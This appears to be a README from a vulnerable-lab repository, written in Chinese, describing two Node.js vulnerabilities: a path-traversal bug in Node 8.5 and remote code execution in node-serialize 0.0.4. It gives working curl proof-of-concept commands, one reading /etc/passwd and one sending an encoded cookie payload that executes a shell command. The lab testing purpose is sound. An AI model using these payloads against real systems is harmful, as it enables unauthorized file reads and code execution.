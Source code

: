 ### nodejs 8.5 normalize 路径解析错误漏洞

测试镜像

* src/node-express/4.13.1/

参考文章

* [Node.js CVE-2017-14849 漏洞分析](https://security.tencent.com/index.php/blog/msg/121)

Poc - 保证两边的 `/../` 数量一样

```
curl 127.0.0.1/js/../../../../../../a/../../../../../../etc/passwd
```

### CVE-2017-5941 - node-serialize 0.0.4 unserialize eval() 漏洞

测试镜像

* src/node-serialize/0.0.4/

说明

* node-unserialize 使用 eval 去生成 `function()`，当用户传递闭包函数可造成 RCE

参考文章

* [Node.js 模块 node-serialize 反序列化任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-92674)

Poc

```
curl 127.0.0.1 -H "Cookie: profile=eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCkge1xuICAgIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjcCAvZXRjL3Bhc3N3ZCAvdG1wJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7XG4gICAgXHQvLyByZXMg5a+56LGh6KKr6ZqU56a75LqG77yM6ZyA6KaB5YaN56CU56m25LiL77yM5omA5Lul5peg5rOV55u05o6l5Zue5pi+XG4gICAgXHQvLyByZXMuc2VuZChcInN0ZG91dD1cIiwgc3Rkb3V0KVxuICAgIFx0Ly8gcmVzLnNlbmQoXCJzdGRlcnI9XCIsIHN0ZGVycilcbiAgICB9KVxuICB9KCkifQ%3D="
```


